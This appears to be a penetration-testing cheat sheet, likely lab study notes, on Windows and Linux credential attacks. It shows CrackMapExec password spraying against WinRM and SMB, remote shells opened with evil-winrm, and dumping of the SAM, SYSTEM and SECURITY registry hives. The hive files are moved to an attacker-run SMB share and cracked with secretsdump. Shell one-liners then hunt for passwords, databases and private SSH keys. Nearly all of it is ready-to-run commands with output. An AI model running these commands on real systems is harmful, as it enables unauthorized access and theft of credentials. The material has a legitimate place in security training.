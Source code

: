 # The use of CrackMapExec

The default command 
    
    crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>

Example 

    [!bash!]$ crackmapexec winrm 10.129.42.197 -u user.list -p password.list

    WINRM       10.129.42.197   5985   NONE             [*] None (name:10.129.42.197) (domain:None)
    WINRM       10.129.42.197   5985   NONE             [*] http://10.129.42.197:5985/wsman
    WINRM       10.129.42.197   5985   NONE             [+] None\user:password (Pwn3d!)

To connect to smb 

    [!bash!]$ crackmapexec smb 10.129.42.197 -u "user" -p "password" --shares-


To connect to WinRm, a script called evilWinRm allows the connection to windows server.

    [!bash!]$ evil-winrm -i <target-IP> -u <username> -p <password>
    [!bash!]$ evil-winrm -i 10.129.42.197 -u user -p password

    Evil-WinRM shell v3.3

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\user\Documents>

# Dump windows hashes

hklm\sam	Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext.

hklm\system	Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.

hklm\security	Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.

    C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save

    The operation completed successfully.

    C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save

    The operation completed successfully.

    C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save

    The operation completed successfully.

Then transfer them offline, using smbserver for example:

    sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/

In Windows:

    C:\> move sam.save \\10.10.15.16\CompData
        1 file(s) moved.

    C:\> move security.save \\10.10.15.16\CompData
            1 file(s) moved.

    C:\> move system.save \\10.10.15.16\CompData
            1 file(s) moved.

And then to read them, we can use secretdump.py 

    python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL

# Credential hunting for windows 
we can lazagne.exe

# Credential hunting for linux 
## interesting commands : 

Search for config files

    for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done


    for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done
Dbs 

    for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done

Notes

    find /home/* -type f -name "*.txt" -o ! -name "*.*"

Scrips 

    for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done

Crons 

    ls -lah /etc/cron.*/
SSH Keys 

    grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"